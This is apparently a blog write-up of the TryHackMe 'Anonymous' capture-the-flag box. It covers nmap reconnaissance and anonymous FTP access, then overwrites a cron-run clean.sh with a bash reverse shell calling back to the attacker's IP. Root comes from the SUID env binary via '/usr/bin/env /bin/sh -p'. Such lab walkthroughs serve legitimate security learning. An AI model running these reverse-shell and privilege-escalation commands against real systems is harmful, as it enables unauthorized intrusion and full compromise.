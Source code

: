 ```yaml
---
title: TryHackMe - Anonymous
date: 2025-10-23 18:30:58 +01:00
categories: [Cybersecurity,CTFs]
tags: [Cybersecurity,CTFs] # TAG names should always be lowercase
---
```


This is a medium Linux box on TryHackMe.
> - Try to get the two flags! Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners.
> - Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

## Reconnaissance

```bash
$ nmap -sC -sV  -A  -Pn -p- -oN nmap_result 10.10.130.199
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-23 15:33 CEST
Nmap scan report for 10.10.130.199
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.11.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 1s, median: 1s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-23T13:34:19
|_  start_date: N/A
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-10-23T13:34:19+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.26 seconds
```
We notice a few ports are open, but most importantly is that FPT allows anonymous logins.
```bash
ftp 10.10.130.199
Connected to 10.10.130.199.
220 NamelessOne's FTP Server!
Name (10.10.130.199:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
250 Directory successfully changed.
ftp> dir
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1161 Apr 07 13:39 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
ftp> get clean.sh
local: clean.sh remote: clean.sh
ftp> exit
221 Goodbye.

$ cat to_do.txt  
I really need to disable the anonymous login...its really not safe
$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete     
$ cat clean.sh         
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Nothing special here, we can however, mount this share and overwrite the clean.sh file as it seems to be triggered by a cronjob.

### Check out SMB share

```bash
$ smbclient -L 10.10.130.199               
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

```

Nothing special found here.

## Foothold

We will mount the drive with curlftpfs and try to overwrite clean.sh to spawn a reverse shell.

### Mount the drive

```bash
$ sudo apt install curlftpfs
$ sudo curlftpfs anonymous:anonymous@10.10.130.199 /mnt/my_ftp/ 
$ sudo ls /mnt/my_ftp
scripts
```

The drive is mounted now we can edit the clean.sh script and add the command sh -i >& /dev/tcp/10.18.11.118/1234 0>&1 to spawn a reverse shell. We will also spawn a netcat listener (nc -lvnp 1234) in a separate window.

```bash
$ sudo vi /mnt/my_ftp/scripts/clean.sh
#!/bin/bash

sh -i >& /dev/tcp/10.18.11.118/1234 0>&1

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
## Privilege Escalation

We got access to the shell, through enumeration we check all binaries that had the SUID bit set through find / -type f -perm -u=s -ls 2>/dev/null and noticed that /usr/bin/env is in this list. According to GTFObins:

> - If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.

We can get a root shell through running the command /usr/bin/env /bin/sh -p

```bash
$ nc -lvnp 1234                                 
listening on [any] 1234 ...
connect to [10.18.11.118] from (UNKNOWN) [10.10.130.199] 57340
$ whoami
namelessone
$ ls
pics
user.txt
$ cat user.txt
**REDACTED**
$ sudo -l
sudo: no tty present and no askpass program specified
$ find / -type f -perm -u=s -ls 2>/dev/null
   131150     28 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /bin/umount
   131140     32 -rwsr-xr-x   1 root     root               30800 Aug 11  2016 /bin/fusermount
   131191     64 -rwsr-xr-x   1 root     root               64424 Jun 28  2019 /bin/ping
   131084     44 -rwsr-xr-x   1 root     root               43088 Mar  5  2020 /bin/mount
   131207     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /bin/su
   919497     12 -rwsr-xr-x   1 root     root               10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   919679    428 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
   919144     60 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /usr/bin/passwd
   918992     36 -rwsr-xr-x   1 root     root               35000 Jan 18  2018 /usr/bin/env
   919017     76 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /usr/bin/gpasswd
   919128     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newuidmap
   919127     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /usr/bin/newgrp
   918924     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /usr/bin/chsh
   919126     40 -rwsr-xr-x   1 root     root               37136 Mar 22  2019 /usr/bin/newgidmap
   918922     76 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /usr/bin/chfn
   919269    148 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /usr/bin/sudo
   919305     20 -rwsr-xr-x   1 root     root               18448 Jun 28  2019 /usr/bin/traceroute6.iputils
   918871     52 -rwsr-sr-x   1 daemon   daemon             51464 Feb 20  2018 /usr/bin/at
   919164     24 -rwsr-xr-x   1 root     root               22520 Mar 27  2019 /usr/bin/pkexec
$ /usr/bin/env /bin/sh -p
ls
pics
user.txt
$ whoami
root
$ cat /root/root.txt
**REDACTED**
```
